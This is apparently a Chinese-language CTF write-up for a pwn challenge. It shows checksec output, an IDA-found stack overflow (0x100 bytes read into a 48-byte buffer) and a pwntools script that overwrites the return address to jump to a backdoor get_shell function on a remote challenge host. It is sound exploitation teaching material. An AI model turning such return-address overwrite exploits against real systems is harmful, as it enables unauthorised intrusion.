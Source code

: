 ```yaml
---
layout: post
---
```

先file打开查看文件

![image](https://user-images.githubusercontent.com/98165037/187692307-6cbc76d4-d8aa-4371-b2ff-6360dfbb5452.png)

接着checksec查看文件开启了哪些保护

![image](https://user-images.githubusercontent.com/98165037/187692991-5b60e48e-70a7-466e-9718-098fd8189651.png)

显示没有开启什么保护，只有一个Partial RELRO

把文件放进ida里看看，按f5

![image](https://user-images.githubusercontent.com/98165037/187866414-3d6be811-6b95-4c56-9316-43bdc57a0e01.png)

发现有一个字符数组s的长度定义为48（0x30），但下面的read函数往s里读入了0x100长度的内容，就会产生栈溢出问题

另外还发现了一个后门函数get_shell

![image](https://user-images.githubusercontent.com/98165037/187867096-2c509081-3ce1-4aed-bb7a-254000490518.png)

查看它的地址

![image](https://user-images.githubusercontent.com/98165037/187868458-ef3af477-eef5-4b95-87a8-76abd15a860e.png)

这样就可以通过s处栈溢出ret到后门函数直接拿到shell了

即需要输入0x30个字节的数据覆盖s，再输入8个字节的数据覆盖栈底指针rbp，然后将返回值修改为get_shell_()函数的地址

exp如下：

```python
from pwn import *

io = remote("114.67.246.176", 15587)
payload = b'a' * (0x30 + 0x8) + p64(0x400751)
io.recvline("say something?\n")
io.send(payload)
io.interactive()
```

运行就可以得到flag啦

![image](https://user-images.githubusercontent.com/98165037/187866262-433f7d0f-eaf7-40d4-b65b-f0eb0ccd171f.png)
